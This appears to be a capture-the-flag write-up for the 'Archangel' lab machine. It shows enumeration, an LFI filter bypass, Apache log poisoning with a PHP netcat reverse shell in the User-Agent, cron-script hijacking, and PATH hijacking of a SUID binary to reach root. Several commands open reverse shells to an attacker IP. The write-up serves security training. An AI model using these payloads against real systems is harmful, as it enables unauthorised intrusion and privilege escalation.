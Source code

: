 # Archangel

## Nmap

```
sudo nmap 10.10.24.89 -p- -sS -sV  

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Looking at the immediate page on port 80 we see a hostname we can use of mafialive.thm.

![](<../../../.gitbook/assets/image (1428).png>)

I added this into /etc/hosts. Before checking the new hostname I scanned the IP further with dirsearch.py and only got one interesting hit on 'flags' which was a Rick Roll...

I then decided to browse tomafialive.thm and we immediately get the first flag.

![http://mafialive.thm/](<../../../.gitbook/assets/image (1429).png>)

Running dirsearch.py against this host reveals /robots.txt.

```
python3 dirsearch.py -u http://mafialive.thm/ -w /usr/share/seclists/Discovery/Web-Content/big.txt -r -t 75 --full-url 
```

![](<../../../.gitbook/assets/image (1430).png>)

Browsing to and reading the contents of robots.txt the file contains the following:

```
User-agent: *
Disallow: /test.php
```

Browsing to /test.php shows the below page.

![http://mafialive.thm/test.php?view=/var/www/html/development\_testing/mrrobot.php](<../../../.gitbook/assets/image (1431).png>)

Clicking the button runs the string 'Control is an illusion'. We can see from the URL bar test.php is 'viewing' /var/www/html/development\_testing/mrrobot.php.

I tried running LFI parameters on 'test.php?view=' and was unable to discover any exploits. Searching through the following resource: [https://book.hacktricks.xyz/pentesting-web/file-inclusion](https://book.hacktricks.xyz/pentesting-web/file-inclusion). We have several ways we can attempt to exploit the web application.

We can try a PHP filter on base64 to attempt to read a file. We can run the command below to read the contents of test.php to see what it is trying to do.

```
http://mafialive.thm/test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/test.php
```

Running this with curl we are returned a base64 string.

![](<../../../.gitbook/assets/image (1432).png>)

Running the string against base64 returns a flag and the PHP code for test.php

```
echo '<base64-String>' | base64 -d
```

![](<../../../.gitbook/assets/image (1433).png>)

The PHP code is shown below for easier reading.

```php
function containsStr($str, $substr) {
    return strpos($str, $substr) !== false;
}
if(isset($_GET["view"])){
if(!containsStr($_GET['view'], '../..') && containsStr($_GET['view'], '/var/www/html/development_testing')) {
    include $_GET['view'];
}else{

    echo 'Sorry, Thats not allowed';
```

Looking at the following line in the code:

`if(!containsStr($_GET['view'], '../..') && containsStr($_GET['view'], '/var/www/html/development_testing')) {`

The exclamation mark stands for **NOT** so this line is saying if 'Does Not' contain '`../..`' and 'Does' contain `/var/www/html/development_testing` then perform the function.

We can use a list of filters in an attempt to fuzz and bypass the restrictions in order to read local files. Remembering from the code snippet above for the view parameter we need to include `/var/www/html/development_testing.`

Use this file for Fuzzing: [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/Intruders/Traversal.txt](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/Intruders/Traversal.txt).

```
wfuzz -w filters.txt -u http://mafialive.thm/test.php?view=/var/www/html/development_testing/FUZZ --hl 15 
```

The parameter `--hl 15` was used to filter out invalid responses. Resulting in matches for the results below:

![](<../../../.gitbook/assets/image (1434).png>)

Running curl against the target with a confirmed filter from above.

```
curl http://mafialive.thm/test.php?view=/var/www/html/development_testing/..//..//..//..///etc/passwd 
```

![](<../../../.gitbook/assets/image (1435).png>)

We can attempt to perform log poisoning to gain RCE and shell on the target machine. Running curl again we can view the Apache access log files. We can also see the recent requests performed above by wfuzz.

```
curl http://mafialive.thm/test.php?view=/var/www/html/development_testing/..//..//..//..///var/log/apache2/access.log
```

![](<../../../.gitbook/assets/image (1436).png>)

I will switch over th Burpsuite for this as it is easier to work in than curl if we need to troubleshoot our requests. Reload the page for accessing the access.log and catch the request with Burpsuite. We can then alter the user-agent field to contain PHP code. In the example below we are executing netcat on the target machine to create a reverse shell to us.

```
<?php exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.14.3.108 80 >/tmp/f') ?>
```

![](<../../../.gitbook/assets/image (1437).png>)

Once the request has been sent this will exist in access.log Simply reload the LFI for [http://mafialive.thm/test.php?view=/var/www/html/development\_testing/..//..//..//..///var/log/apache2/access.log](http://mafialive.thm/test.php?view=/var/www/html/development\_testing/..//..//..//..///var/log/apache2/access.log). This should then execute the PHP code and catch a shell on netcat on our attacking machine.

![](<../../../.gitbook/assets/image (1438).png>)

I then transferred over linpeas to the target machine. After exeucting linpeas identified a cronjob that is executed every minute by the user 'archangel'.

![](<../../../.gitbook/assets/image (1439).png>)

This cronjob is executing the file /opt/helloworld.sh. Viewing the permissions of the file we see we have the ability to edit the contents of the file. Currently every minute the file appends a new line to /opt/backupfiles/helloworld.txt

![](<../../../.gitbook/assets/image (1440).png>)

We can echo in a new line for a bash reverse shell and wait for it to execute.

```
echo 'sh -i >& /dev/tcp/10.14.3.108/443 0>&1' >> helloworld.sh
```

Start a `netcat` listener on our attacking machine.

```
sudo nc -lvp 443
```

Then wait for the cronjob to execute. If performed correctly we will have shell as the user 'archangel'.

![](<../../../.gitbook/assets/image (1441).png>)

Again running linpeas on the target machine we find a custom binary with the SUID bit set.

![](<../../../.gitbook/assets/image (1442).png>)

Looking at the results above we can see the binary is trying to execute the command 'cp' or copy without a full path specified and as such is unable to locate the binary.

We can take advantage of this by exporting a new path where our home directory is searched in first and then get our own malicious binary executed with the SUID privileges (root privileges).

First set a new path where the users home directory is the first entry.

```
PATH=/home/archangel:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
```

Then create a file containing a reverse shell in `/home/archangel`.

```
archangel@ubuntu:~$ touch cp
archangel@ubuntu:~$ echo '#!/bin/bash' > cp 
archangel@ubuntu:~$ echo 'sh -i >& /dev/tcp/10.14.3.108/80 0>&1' >> cp
archangel@ubuntu:~$ chmod +x cp
```

On the above commands we have created a file called 'cp' in the home directory of `/home/archangel` we have then set `/bin/bash` at the start of the script and then echo'd in on a new line a bash reverse shell. Finally we set the file to be executable with `chmod`.

Set up a `netcat` reverse shell on the attacking machine.

```
sudo nc -lvp 80
```

Then execute the backup binary:

```
archangel@ubuntu:~$ /home/archangel/secret/backup
```

We then receive a reverse shell as root.

![](<../../../.gitbook/assets/image (1443).png>)
